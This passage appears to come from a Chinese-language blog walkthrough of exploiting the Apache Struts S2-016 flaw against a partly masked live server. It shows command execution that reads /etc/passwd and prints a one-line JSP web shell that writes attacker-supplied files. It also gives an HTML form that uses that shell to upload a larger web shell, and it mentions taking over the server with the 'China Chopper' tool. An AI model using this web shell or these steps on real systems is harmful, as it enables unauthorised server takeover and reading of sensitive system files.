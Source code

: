 ![](/assets/images/2016-11-03-struts_s2_016/20161103230517.png)  

### 2.命令执行    

同爆应用路径，直接上exp即可。修改payload中的命令就可以执行相应命令，如下图查看passwd，执行命令cat /etc/passwd  
![](/assets/images/2016-11-03-struts_s2_016/20161103231327.png)  

### 3.GET SHELL  

这个稍微麻烦点，想拿Shell就需要上传一个马。本案例的过程是先上传一个小马，然后再利用小马写一个大马，最后利用神器菜刀拿下服务器。[Payload戳这里](#jump)，Payload的作用就是上传一个名叫css3.jsp的小马。小马css3.jsp的内容如下，也就是Payload中c参数的值，它的作用是上传一个f文件，内容是t，具体代码如下：  

```
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>
```

在正式上传小马之前先测试下，写入一个test2.txt，内容随便写11111xxxssss。执行后访问该文件，过程很顺利，效果如下：  
![](/assets/images/2016-11-03-struts_s2_016/20161103232323.png)  
测试成功后接着可以放心的上传css3.jsp小马了，成功写入小马后就需要利用小马上传一个大马，这需要在客户端操作，下面是客户端的代码：  

```html
<form action="http://***.***.com:8080/***.***.web/css3.jsp?f=bcl.jsp" method="post">
<textarea name=t cols=120 rows=10 width=45>your code</textarea><BR><center><br>
<input type=submit value="submit">
</form>
```

提交该form表单的结果是在当前目录(*小马所在目录*)创建一个文件f叫"bcl.jsp"的大马(*Shell*)，其内容是t。form表单效果图如下：  